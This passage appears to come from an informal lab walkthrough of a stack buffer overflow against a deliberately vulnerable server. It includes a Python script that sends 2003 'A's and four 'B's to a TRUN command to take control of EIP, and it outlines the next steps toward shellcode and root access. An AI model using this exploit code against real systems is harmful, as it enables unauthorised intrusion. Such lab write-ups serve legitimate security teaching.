

Will gedit the fuzz_2.py and do the following changes.
We are replacing the offset with the shellcode and the shellcode is nothing but A's and B's right now but it's gona get malcious in a Minute.
Why sending 2003 A's ?_?
Cuz that's where the EIP starts (i.e.e By 2004 the EIP starts)
Remember A's are 41 and B's are 42
Python:
#!/usr/bin/python
import sys,socket
shellcode = "A" * 2003 + "B" * 4
try:
s = socket.socket(socket.AF_INET , socket.SOCK_STREAM)
s.connect(('192.168.205.135',9999))
s.send(('TRUN /.:/' + shellcode))
s.close()
except:
print "Error Connnecting To The Server"
sys.exit()
┌──(root㉿kali)-[/home/kali]
└─# ./fuzz_2.py

As we can see our B's were landed on the EIP so now only some couple of Housing keeping things are left like
Finding Bad Character's
And Finding the Right Module
After this will generate some shellcode and will point the EIP to that return address that gonna be malicious and than we are gonaa get Root access.